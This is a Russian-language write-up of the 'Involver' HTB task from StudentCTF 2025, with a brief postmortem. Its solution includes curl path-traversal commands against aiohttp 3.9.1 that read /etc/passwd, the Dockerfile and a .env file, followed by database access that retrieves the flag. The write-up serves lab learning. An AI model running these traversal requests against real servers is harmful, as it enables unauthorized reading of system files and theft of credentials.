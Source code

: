 ## Involver

| Событие         | Название | Категория |
| :-------------- | -------- | --------- |
| StudentCTF 2025 | Involver | HTB       |

  
### Описание

> **🍕 Involver: The Calorie Conspiracy**  
> _Когда здоровое питание становится угрозой безопасности_
> 
> Вы - независимый исследователь кибербезопасности. К вам обратился бывший сотрудник компании "Involver", разрабатывающей популярное приложение для анализа калорий. Он утверждает, что система собирает больше данных, чем заявляет, а алгоритмы имеют критические уязвимости.

### Небольшой пост мортем о задании

Изначально таск был задуман, как простой HTB, в котором участнику не предстоит слишком долгих усилий, чтобы получить флаг, но после того как таск был написан, мысли были о том как этот таск смогут поломать "добросовестные участники", ведь кто-то да и попытается попав в базу данных удалить таблицы и с пользователями и с флагом. В связи с этим было принято решение разграничить пользователей и раздать необходимые права. При тестировании все было хорошо, и вход осуществлялся успешно, при деплое задания тоже не возникло никаких предпосылок. Но в процессе решения получилось так, что права на базу перествали влиять и приложение не могло выдать auth токен, чтобы попасть в главное меню. Это безусловно казалось странным, и при условии, что это была категория HTB многие могли предположить, что должен быть обход авторизации, но к сожалению для них это было не так. Данный факап не повлиял не решение задания, но подпортил впечатление о нем, таким образом хочется сказать спасибо участникам, что решали его не смотря на данный инцидент! 


### Решение
Из входных данных и пользователя была только http ссылка. Просканировав порты картина выглядела следующим образом:
```
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
5432/tcp open  postgresql
8081/tcp open  blackice-icecap
8082/tcp open  blackice-alerts
8222/tcp open  unknown
```
По портам можно было понять на каких висят остальные таски, но увидеть стандартный для postgres port 5432 довольно странно. Может быть где-то есть креды чтобы к ней подключиться? 
Открываем http ссылку, и панели разработчика во вкладке `network` можно посмотреть какие заголовки передает сервер, один из них `aiohttp 3.9.1`, но почему бы не воспользоваться nginx или apache? Вставляем этот заголовок в поиске и проверяем на известные уязвимости. Практически сразу попадается LFI уязвимость связанная именно с этой версией. Тестируем ...
```
curl -s --path-as-is "http://localhost:8081/static/../../../../../../../../../etc/passwd"
```
Есть! У нас есть произвольное чтение файлов. Следовательно надо понять, где находятся файлы приложения. Попробуем поискать системные или пользовательские файлы, успешным будет один из вариантов: ```
```
curl -s --path-as-is "http://localhost:8081/static/../../Dockerfile"
```
И у нас есть исходные коды приложения.
В одном из файлов видно что приложение подгружает enviroments, но /proc/self/enviroment недоступен. Может есть способ получить их еще как-нибудь? Пытаемся сделать файл enumeration из известных вариантов .env .enviroment .envs .enviroments и т. д. 
```
curl -s --path-as-is "http://localhost:8081/static/../../.env"
```
 
 Успешным оказывается такой перебор. И у нас есть доступ к базе данных. Подключаемся через консоль `psql` и видим две таблицы `users` и `secret`
```
SELECT * FROM secret; 
```

### Флаг

```
stctf{test_flag}
```
